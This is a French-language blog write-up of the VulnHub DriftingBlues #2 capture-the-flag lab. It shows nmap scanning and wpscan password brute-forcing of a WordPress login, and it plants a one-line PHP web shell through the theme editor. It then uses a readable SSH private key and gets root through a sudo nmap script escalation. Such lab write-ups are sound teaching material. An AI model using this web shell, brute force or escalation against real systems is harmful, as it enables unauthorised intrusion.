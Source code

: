 ```yaml
---
title: Solution du CTF DriftingBlues #2 de VulnHub
tags: [CTF, VulnHub]
---
```


Intro
-----

Après [le précédent opus]({% link _posts/2022-01-19-Solution-du-CTF-DriftingBlues-1-de-VulnHub.md %}) j'attaque donc ce second épisode des CTF DriftingBlues, toujours téléchargeable sur VulnHub  

```plain
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
| ftp-anon: Anonymous FTP login allowed (FTP code 230) 
|_-rwxr-xr-x   1 ftp      ftp       1403770 Dec 17  2020 secret.jpg 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Il y a un serveur FTP qui autorise les connexions anonymes comme nous le montre Nmap. Toutefois avec Filezilla on voit qu'on ne peut pas remonter dans l'arborescence. On a donc que ce fichier *secret.jpg* que l'on peut récupérer.  

Il s'agit d'une photo d'un guitariste et un coup d'éditeur hexa ou la récupération des métadonnées EXIF avec le premier logiciel de traitement photo trouvé ne sortent rien d'intéressant.  

Une recherche d'image inversée nous apprend que le guitariste est *Otis Rush*. Potentiellement un indice.  

Utiliser les outils de stéganographie est souvent une plaie. Le code est ancien et ne compile pas forcément sur des machines récentes. J'ai trouvé [une image Docker](https://hub.docker.com/r/dominicbreuker/stego-toolkit)
 qui contient les binaires utiles, c'est l'occasion d'essayer :  

```plain
$ docker run -it --rm -v $(pwd):/data dominicbreuker/stego-toolkit /bin/bash
root@eb06c29f1622:/data# stegdetect secret.jpg  
secret.jpg : negative
```

Oups... Les autres outils présents n'ont pas été plus utiles. Passons à autre chose.  

La force
--------

Via énumération sur le serveur web on trouve très vite un Wordpress à l'adresse */blog*. Les posts présents ont tous été créés par un utilisateur baptisé *albert*.  

Vu que j'avais du temps AFK j'ai lancé wpscan pour bruteforcer le compte avec la wordlist rockyou :  

```plain
$ docker run -v /tools/wordlists/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.7/blog/ -U albert -P /data/rockyou.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: albert, Password: scotland1
```

Je suppose qu'il y avait un indice avec le guitariste mais même en regardant sa page wikipedia pas de rapport à L'Ecosse, peut être qu'un des posts en faisait mention :-/   

Quoiqu'il en soit une fois connecté sur l'interface admin du Wordpress on va dans *Appeareance* puis *Theme Editor* pour éditer l'un des fichiers PHP du thème courant (*footer.php* pour moi) :  

```php
<?php if (isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>
```

Comme ça je peux passer des commandes sur le Wordpress et obtient l'output en bas de page.  

Mercury
-------

Un des premiers réflexes est de regarder le fichier */etc/passwd* qui nous renseigne sur les utilisateurs présents :  

```plain
freddie:x:1000:1000:freddie,,,:/home/freddie:/bin/bash
```

Cet utilisateur dispose du flag *user.txt* qui ne nous est pas lisible. En revanche sa clé privée SSH l'est !  

```plain
www-data@driftingblues:/var/www/html/blog$ ssh -i /home/freddie/.ssh/id_rsa freddie@127.0.0.1 
Could not create directory '/var/www/.ssh'. 
load pubkey "/home/freddie/.ssh/id_rsa": Permission denied 
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established. 
ECDSA key fingerprint is SHA256:/+Mlgo9EqzVybvI0rol0jnjKctAvhqRyag+YeY+IMrs. 
Are you sure you want to continue connecting (yes/no)? yes 
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts). 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
freddie@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 
```

GTFO
----

```plain
freddie@driftingblues:~$ sudo -l 
Matching Defaults entries for freddie on driftingblues: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

User freddie may run the following commands on driftingblues: 
    (root) NOPASSWD: /usr/bin/nmap
```

*Freddie* peut utiliser Nmap en tant que root sans donner de mot de passe. Pratique mais faillible [d'après GTFObins](https://gtfobins.github.io/gtfobins/nmap/) :  

```plain
freddie@driftingblues:~$ echo 'os.execute("/bin/sh")' > command.py
freddie@driftingblues:~$ sudo /usr/bin/nmap --script=command.py 
Starting Nmap 7.70 ( https://nmap.org ) at 2022-01-19 13:30 CST 
NSE: Warning: Loading 'command.py' -- the recommended file extension is '.nse'. 
# uid=0(root) gid=0(root) groups=0(root) 
# # root.txt 
# flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Cette exploitation cache l'input d'où l'absence des commandes dans l'affichage précédent.  


*Published January 19 2022 at 21:01*
